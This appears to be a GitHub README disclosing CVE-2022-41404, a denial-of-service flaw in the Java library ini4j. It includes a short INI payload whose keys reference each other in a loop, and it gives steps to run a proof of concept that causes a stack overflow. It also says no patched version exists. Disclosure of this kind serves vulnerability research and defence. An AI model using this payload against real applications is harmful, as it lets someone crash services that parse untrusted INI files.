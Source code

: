 # Unpatched ini4j DoS vulnerability [CVE-2022-41404](https://nvd.nist.gov/vuln/detail/CVE-2022-41404)

Test Text

A CVE was submitted to NVD on 10/11/2022, claiming that [ini4j](https://mvnrepository.com/artifact/org.ini4j/ini4j) 
*prior* to [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) is vulnerable to a DoS attack. The ini file 
payload is

```
[sectionOne]
weight = ${sectionTwo/weight}
height = ${doc/height}

[sectionTwo]
weight = ${sectionOne/weight}
height = ${sectionOne/height}

[doc]
weight = 49.5
height = 87.7
```
If you take a look at `sectionOne`, you can note that the `weight` key references the `sectionTwo` `weight` key, 
and then references the `sectionOne` `weight` key. This infinite lookup loop results in Denial of Service. This type of
DoS can be described as a [Billion Laugh attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)

It turns out that [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) hasn't been updated since 2015, and 
there is no fixed version.

## How to run the PoC

1. Install the ini4j dependency using maven
2. Run the main class in [Main.java](src%2Fmain%2Fjava%2Forg%2Fini4jTest%2FMain.java)
3. When trying to `fetch` the `weight` key in `sectionOne`, a StackOverFlow Exception is raised, resulting in DoS
   - `ini.get("sectionOne").fetch("weight");`
